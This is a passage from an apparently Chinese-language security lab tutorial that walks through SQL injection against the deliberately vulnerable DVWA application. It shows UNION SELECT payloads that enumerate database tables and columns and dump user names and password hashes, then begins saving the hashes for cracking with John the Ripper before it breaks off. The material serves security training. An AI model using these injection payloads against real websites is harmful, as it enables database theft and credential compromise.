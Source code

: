 ```
' or 1=1 union select null, table_name from information_schema.tables #
```

![show-schema](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307241963.png/wm)

根据上一步我们知道了我们数据库的名称，我们可以只查看 dvwa 数据库的表有哪些：

```
' or 1=1 union select null, table_name from information_schema.tables where table_schema='dvwa' #
```

![show-tables-dvwa](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307253176.png/wm)

通过上述的结果我们可以了解到，数据库中所有表的名称，通过表名我们还可以通过这样的方式查看所有的表项：

```
' or 1=1 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

![show-tables-items](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307263568.png/wm)

这其中 concat() 是 MySQL 中一个很重要函数，该函数用于将多个字符串连接成一个字符串，也就是将 table_name、column_name 一同显示出来，这里的 0x0a 表示的是 `/n` 换行符，这样把表名与各个表项分开，不至于让我们分辨不出，更人性化一点。

看到这里我们便可把我们刚刚猜测的查询语句完善一番了，因为我们知道了表名，以及表项：

```
SELECT first_name,last_name FROM users WHERE user_id = '获取到的输入内容'
```

我们可以通过查看原来来证实我们的猜想是否正确：

![show-source-code](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307276186.png/wm)

既然都能获取到表中有所有表项的信息了，我们能否将每个表项的内容也一同显示出来呢？

```
' or 1=1 union select null,concat(user_id,0x0a,first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

![show-all-detail-user](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307289373.png/wm)

从结果中我们看到的密码都是随机的数字与字母组合而成，而我们在登陆的时候，如 admin 密码并不是这样，很明显，这是密码在存储之前加过一次密来增加安全性，在 MySQL 中有单向加密与双向加密，其中单向的就 md5 的方式最为常用，双向的 ENCODE()、DENCODE() 较为常用。

较为简短的密码是很好破解的，我们可以尝试一番，首先我们将所有用户的 user 与 password 都复制下来保存在一个文本中（在 kali 中）：

```
vim password.txt
```

以这样的格式保存：

![save-password](https://doc.shiyanlou.com/document-uid113508labid2411timestamp1482307298617.png/wm)

然后使用 john 来破解：
